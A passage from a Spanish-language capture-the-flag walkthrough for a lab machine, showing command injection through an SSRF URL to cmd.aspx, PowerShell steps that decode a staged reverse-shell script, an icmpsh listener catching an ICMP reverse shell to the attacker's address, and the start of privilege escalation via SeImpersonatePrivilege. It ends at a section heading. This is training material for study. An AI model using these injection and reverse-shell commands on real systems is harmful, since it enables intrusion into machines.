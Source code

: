 1. Controlamos en la web si el fichero existe

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=type C:\Temp\reverse.ps1
    ```

    Vemos el status code a 0

1. Decodificamos desde la web el fichero que esta en base64
    
    - las etapas serian estas

        ```bash
        $file = Get-Content C:\Temp\reverse.ps1 
        $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file))
        $decode > C:\Temp\pwned.ps1
        ```

    - y en la url de la web seria:

        ```bash
        http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell $file = Get-Content C:\Temp\reverse.ps1; $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file)); $decode > C:\Temp\pwned.ps1
        ```

1. Lanzamos el script python previamente descargado

    ```bash
    rlwrap python icmpsh_m.py 10.10.14.8 10.10.10.57
    ```

1. Ejecutamos el pwned.ps1 desde la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell C:\Temp\pwned.ps1
    ```

Por fin estamos adentro de la maquina ;)

## Escalada de Privilegios {-}

### Rootear la maquina {-}

```bash
whoami /priv
#Output

SEImpersonatePrivilege
```

Aqui ya vemos que podemos escalar privilegios con `JuicyPotatoe.exe` o `RotenPotatoe.exe` pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

#### Secuestro de comandos para copiar los ficheros del usuario decoder.MINION {-}
